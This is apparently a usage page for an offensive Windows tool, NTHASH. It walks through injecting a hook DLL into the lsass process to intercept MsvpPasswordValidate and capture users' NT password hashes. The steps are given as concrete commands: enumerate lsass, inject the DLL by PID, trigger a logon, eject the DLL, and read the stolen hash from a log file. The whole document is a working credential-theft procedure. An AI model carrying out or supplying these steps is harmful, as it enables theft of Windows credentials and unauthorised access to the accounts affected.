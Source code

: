 Hook MsvpPasswordValidate, enter any password (correct or not) and intercept the NT hash of the user's password.

How to proceed:

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook .
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook
check c:\log.txt and obtain the (correct) hash of the user you targeted
